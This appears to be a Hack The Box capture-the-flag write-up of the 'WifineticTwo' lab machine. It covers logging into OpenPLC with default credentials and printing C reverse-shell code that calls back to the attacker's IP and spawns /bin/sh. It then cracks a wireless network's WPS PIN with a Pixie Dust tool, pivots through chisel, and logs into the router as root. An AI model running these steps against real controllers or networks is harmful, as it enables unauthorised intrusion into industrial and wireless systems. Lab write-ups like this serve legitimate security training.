

---
---

# HTB - WifineticTwo

NMAP


- Using the default credentials for OpenPLC

**openplc : openplc**

- We can log in:


- I found this RCE vulnerability for openplc:
<https://www.exploit-db.com/exploits/49803>


It fails at the last hurdle

- It creates the file program.st:


- But the compilation of this program fails because it doesn't exist on the server


- This is the C code that it creates:

```c
#include "ladder.h"

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

//-----------------------------------------------------------------------------
//-----------------------------------------------------------------------------

int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

//-----------------------------------------------------------------------------
//-----------------------------------------------------------------------------

void initCustomLayer()
{
}

void updateCustomIn()
{
}

void updateCustomOut()
{
    int port = 5555;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);

    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.50");

    connect(sockt, (struct sockaddr *) &revsockaddr, sizeof(revsockaddr));

    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;
}

```


- We are however, able to compile the Blank Program:


- Copy the code from program.st
- Delete the program.st and only have Blank Program there
- Go to Hardware -\> Check the reverse shell code is in there or paste it in
- Make sure it says Blank Program at the top:


- Save changes

- Set up listener
- Start PLC


- Root isn't ROOT:


- More stable shell:

```bash
/usr/bin/script -qc /bin/bash /dev/null

#PRESS Ctrl+Z

stty raw -echo
fg

#PRESS ENTER
#PRESS ENTER

export TERM=xterm
stty cols 236 rows 59
PS1="\n\[\033[1;34m\][\$(date +%H%M)][\u@\h:\w]$\[\033[0m\] "
alias ls='ls --color=auto'
reset
clear

#PRESS ENTER

```


```bash
sudo iwlist wlan0 scan

```


```bash
iwconfig

```


- From the outputs above, we can see that we have a wireless adapter **wlan0** and there is a wireless network called **plcrouter**. But we aren't connected to it

- First we need to find the passphrase for the network

- We can see if we can do a WPS Pixie Dust Attack:
  
```bash
git clone https://github.com/kimocoder/OneShot/tree/master

sudo python3 oneshot.py -i wlan0 -K

```


- After cracking the WPS PIN, we get the PSK (password):
**NoWWEDoKnowWhaTisReal123!**

- We don't have Network Manager installed but we do have wpa_supplicant

- Follow this guide to connect to plcrouter using wpa_supplicant
<https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant>


- Connected:


- Uploaded chisel to see if I can see any other machines on the network and got a hit on 192.168.1.1 on port 80:
  
```bash
chisel server -p 8888 --reverse
./chisel client 10.10.14.50:8888 R:socks
proxychains nmap 192.168.1.0/24 -sT

```


Most probably the router

Port 22 is also open on the router:


- If we look at the http page (through FoxyProxy Chisel proxy):


- The username root is already populated and if we just click on Login:


We successfully log in

- We can use this to ssh to the access point:
  
```bash
ssh root@192.168.1.1
```


If you want to install something like reaver for this challenge


Apt isn't configured to run through a SOCKS proxy (like chisel) but rather through an http proxy

The best way to get apt to run on a remote machine with no internet access is:

<u>On Kali:</u>

```bash
pip install proxy.py
proxy --hostname 0.0.0.0 --port 12345
```

<u>On remote target machine:</u>
- Create the file /etc/apt/apt.conf with the lines:

```bash
Acquire::http::Proxy "http://10.10.14.50:12345/";
Acquire::https::Proxy "https://10.10.14.50:12345/";
```
- And set the env_variable http_proxy:

```bash
export http_proxy=http://10.10.14.50:12345
```

- Now run apt commands:



